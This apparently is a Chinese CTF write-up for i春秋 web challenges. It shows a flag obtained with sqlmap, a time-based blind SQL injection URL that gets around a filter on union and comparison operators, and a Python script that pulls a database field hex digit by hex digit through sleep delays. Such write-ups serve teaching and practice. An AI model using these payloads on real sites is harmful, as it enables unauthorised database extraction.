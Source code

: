 # i春秋

## web

### 简单的招聘系统



sqlmap直接出来

flag{2f52809e-f46c-4638-8f72-b24ec1ec6d06}



### 盲注

过滤`union,<,>,=`

构造` http://75087ef5ae2c4685b155e915c62d0060b48ad2be758e45d8.changame.ichunqiu.com/?id=1 and if(hex(substr(fl4g,1,1))-1,sleep(5),0) `

```python
import requests

'http://75087ef5ae2c4685b155e915c62d0060b48ad2be758e45d8.changame.ichunqiu.com/?id=1%20and%20if(hex(substr(fl4g,POS,1))-GUESS,sleep(5),0)'
result="666c61677b32363837656433302d356266382d343033662d383732342d61643239"
l=len(result)
while True:
    ended=True
    l+=1
    for i in range(16):
        sql='http://ecd3dce145d342fd9d490cde15ef8239b1e8b5763640437a.changame.ichunqiu.com/?id=0%2bif(conv(substr(hex(fl4g),POS,1),16,10)-GUESS,1,sleep(5))'
        sql=sql.replace("POS",str(l))
        sql=sql.replace("GUESS",str(i))
        try:
            requests.get(sql,timeout=5)
            print(sql)
        except :
            result+=hex(i)[2:]
            print(result)
            ended=False
            break
    if ended:
        break

```





### ezsqli
